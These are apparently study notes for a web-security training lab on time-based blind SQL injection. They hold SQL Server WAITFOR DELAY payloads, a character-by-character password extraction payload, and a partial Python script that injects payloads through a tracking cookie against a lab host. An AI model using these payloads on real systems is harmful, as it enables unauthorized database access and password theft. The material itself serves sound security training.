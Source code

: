 The techniques for triggering a time delay are specific to the type of database being used. For example, on Microsoft SQL Server, you can use the following to test a condition and trigger a delay depending on whether the expression is true:

```sql
'; IF (1=2) WAITFOR DELAY '0:0:10'--
'; IF (1=1) WAITFOR DELAY '0:0:10'--
```

- The first of these inputs does not trigger a delay, because the condition`1=2`is false.
- The second input triggers a delay of 10 seconds, because the condition`1=1`is true.

Using this technique, we can retrieve data by testing one character at a time:

```sql
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
```

#### Note

There are various ways to trigger time delays within SQL queries, and different techniques apply on different types of database. For more details, see the SQL injection cheat sheet.

## Lab: Blind SQL injection with time delays and information retrieval

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

The database contains a different table called`users`, with columns called`username`and`password`. You need to exploit the blind SQL injection vulnerability to find out the password of the`administrator`user.

To solve the lab, log in as the`administrator`user.

```python
import requests
import string
from urllib.parse import quote_plus, quote

charset = string.ascii_lowercase + string.digits
# charset = "tdepmpqvc9hdrbscined"

burp0_url = "https://0a3100ee037d7e3880ae30be00e400d2.web-security-academy.net/filter?category=Lifestyle"
burp0_cookies = {
    "TrackingId": "02Pa25f5Z0JFybY8",
    "session": "saZ3q52ueTNFHedDU4MsNaOoVLj6urpU",
}

# Sample payload: '; SELECT 1 FROM pg_sleep(10)--
def blind_sql(payload):
    global burp0_url
    global burp0_cookies
    modified_cookies = burp0_cookies.copy()
    modified_cookies["TrackingId"] += payload
    res = requests.get(burp0_url, cookies=modified_cookies)
    return res.elapsed.total_seconds() > 10

def parse_payload(payload):
    payload_quoted_plus = quote_plus(f";{payload}")
    return f"'{payload_quoted_plus}--"

```